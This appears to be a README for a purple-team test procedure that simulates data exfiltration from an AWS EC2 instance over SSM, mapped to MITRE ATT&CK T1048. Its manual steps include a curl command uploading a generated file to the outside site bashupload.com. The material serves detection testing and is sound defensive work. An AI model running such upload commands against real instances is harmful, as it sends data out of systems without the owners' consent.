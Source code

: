 # Exfil from EC2 to Internet

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP is executed on your local machine.
Using AWS SSM, commands to generate random file of a given size are sent to EC2 instance.
Again using AWS SSM, command to exfil file to external file upload site are sent.
The output is stored in file `/tmp/exfil_url.txt`

## Arguments

- **aws_region**: The AWS region the EC2 instance is in.
- **ec2_instance_id**: The instance ID of the EC2 to exfiltrate the test file from.
- **generated_exfil_file_path**: The name and full path of the file to be generated and located on the EC2 (Default: /tmp/purple_aws_exfil_test)
- **exfil_file_size_bytes**: Size in bytes of the randomly generated file to create for exfiltrationl (Default: 20 MB)
- **curl_upload_command**: Curl command to be issued to upload the exfil file.

## Steps

1. Set up necessary cloud environment variables
2. Generate a file for exfiltration on the ec2 instance to be exfiltrated.
3. Upload the generated exfil file to the internet. The URL of uploaded file can be found in `tmp/exfil_url.txt`

## Manual Reproduction Steps

```
# Set necessary env variables

# Login to EC2 instance over SSM
aws ssm start-session --target "INSTANCE_ID" --region "REGION"

# Generate a random file to be exfiled.
openssl rand -out /tmp/exfil_file 1000000

#Exfil the file to an external file upload site.
curl https://bashupload.com/ -T /tmp/exfil_file -o /tmp/exfil_url.txt
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0010 Exfiltration
- **Techniques**:
  - T1048 Exfiltration Over Alternative Protocol
- **Sub-Techniques**:
  - T1048.3 Exfiltration Over Unencrypted Non-C2 Protocol
